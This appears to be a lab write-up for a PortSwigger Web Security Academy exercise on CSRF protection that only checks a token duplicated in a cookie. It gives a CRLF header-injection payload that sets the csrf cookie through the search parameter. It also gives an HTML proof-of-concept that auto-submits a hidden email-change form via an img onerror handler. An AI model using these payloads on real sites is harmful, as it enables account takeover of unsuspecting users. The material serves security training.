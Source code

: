 # CSRF where token is duplicated in cookie

Lab URL :- `https://portswigger.net/web-security/csrf/lab-token-duplicated-in-cookie`

![image](https://user-images.githubusercontent.com/60841283/182621574-c1cf3a99-2c74-49d5-b8bb-3128eb9fe628.png)

CSRF in both cookie and in post parameter, CSRF must be same at both places

![image](https://user-images.githubusercontent.com/60841283/182622099-ff4fe9b6-8e01-423c-98b2-2a47245f6c8c.png)

Random string in search bar introduces a new cookie :- 

![image](https://user-images.githubusercontent.com/60841283/182622429-4e349518-2e93-48bb-afde-4bde0a39f314.png)

Header Injection Payload:- `/?search=test%0d%0aSet-Cookie:%20csrf=ZYU0KeTRdyyRHNiogMMrnG4rtx2EDbKN` 

![image](https://user-images.githubusercontent.com/60841283/182622613-fec9dc3c-2dcb-48d9-b7bf-7b775981720f.png)

Generating POC :- 

```html
<html>
<body>
	<iframe style="display: none;" name="csrf_iframe"></iframe>
	<form action="https://0a780089041136edc01c582c00c30048.web-security-academy.net/my-account/change-email" method="POST" id="csrf-id" target="csrf_iframe">
		<input type="hidden" name="email" value="lol@lol.com">
		<input type="hidden" name="csrf" value="ZYU0KeTRdyyRHNiogMMrnG4rtx2EDbKN">
	</form>
	<img style="display:none;" src="https://0a780089041136edc01c582c00c30048.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=ZYU0KeTRdyyRHNiogMMrnG4rtx2EDbKN" onerror="document.forms[0].submit()">
</body>
</html>
```

Store in exploit server and "Deliver to victim" :- 

![image](https://user-images.githubusercontent.com/60841283/182623078-e3a86613-16fc-4e4f-af92-c6c517ef04be.png)

